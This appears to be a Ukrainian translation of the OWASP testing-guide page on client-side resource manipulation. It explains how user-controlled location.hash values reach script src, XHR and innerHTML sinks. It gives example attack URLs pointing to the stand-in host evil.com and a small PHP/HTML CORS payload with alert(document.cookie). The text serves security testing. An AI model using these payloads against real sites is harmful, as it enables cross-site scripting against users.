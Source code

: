 
# Тестування маніпуляції ресурсами на стороні клієнта

# Підсумок

Уразливість маніпулювання ресурсами на стороні клієнта є помилкою перевірки вхідних даних. Це відбувається, коли програма приймає керований користувачем вхід, який визначає шлях до ресурсу, наприклад джерело iframe, JavaScript аплет або обробник XMLHttpRequest. Ця вразливість полягає в здатності контролювати URL-адреси, які посилаються на деякі ресурси, присутні на веб-сторінці. Вплив цієї вразливості різний, і зазвичай вона використовується для проведення атак XSS. Ця вразливість дає змогу втручатися в очікувану поведінку програми, змушуючи її завантажувати та відтворювати шкідливі об’єкти.

Наведений нижче код JavaScript показує можливий вразливий скрипт, у якому зловмисник може контролювати location.hash (джерело), який досягає атрибута src елемента cкрипта. Цей окремий випадок призводить до атаки XSS, оскільки зовнішній JavaScript може бути ін’єктований.

Зловмисник може націлитися на жертву, змусивши її відвідати цю URL-адресу: `www.victim.com/#http://evil.com/js.js`, де js.js містить: `alert(document.cookie)`. Це спричинило б спливаюче сповіщення у браузері жертви.

Більш шкідливий сценарій передбачає можливість контролю URL-адреси, викликаної в запиті CORS. Оскільки CORS дозволяє домену-запиту отримати доступ до цільового ресурсу за допомогою підходу на основі заголовка, зловмисник може попросити цільову сторінку завантажити шкідливий вміст з її власного веб-сайту.

Location.hash контролюється введенням користувача та використовується для запиту зовнішнього ресурсу, який потім буде відображено через конструкцію innerHTML. Зловмисник може попросити жертву відвідати таку URL-адресу: `www.victim.com/#http://evil.com/html.html` із обробником корисного навантаження для html.html: 
```
<?php 
      header('Access-Control- Allow-Origin: http://www.victim.com'); 
?> 
<script>alert(document.cookie);</script>
```
# Цілі тесту

- Виявлення приймачів із слабкою перевіркою вхідних даних.
- Оцінка впливу маніпулювання ресурсами.

# Як тестувати

Щоб вручну перевірити наявність такого типу вразливості, ми повинні визначити, чи використовує програма вхідні дані без їх належної перевірки. Якщо так, ці вхідні дані знаходяться під контролем користувача і можуть використовуватися для визначення зовнішніх ресурсів. Оскільки існує багато ресурсів, які можна включити в програму (наприклад, зображення, відео, об’єкти, css та iframe), клієнтські скрипти, які обробляють пов’язані URL-адреси, слід досліджувати на предмет потенційних проблем.

У наступній таблиці показано можливі точки впорскування (заглиблення), які слід перевірити:

| Resource Type 	|           Tag/Method           	| Sink 	|
|:-------------:	|:------------------------------:	|:----:	|
| Frame         	| iframe                         		| src  	|
| Link          	| a                              		| href 	|
| AJAX Request  	| xhr.open(method, [url], true); 	| URL  	|
| CSS           	| link                           		| href 	|
| Image         	| img                            		| src  	|
| Object        	| object                         		| data 	|
| Script        	| script                         		| src  	|

Найбільш цікавими є ті, які дозволяють зловмиснику включити клієнтський код (наприклад, JavaScript), який може призвести до вразливості XSS.
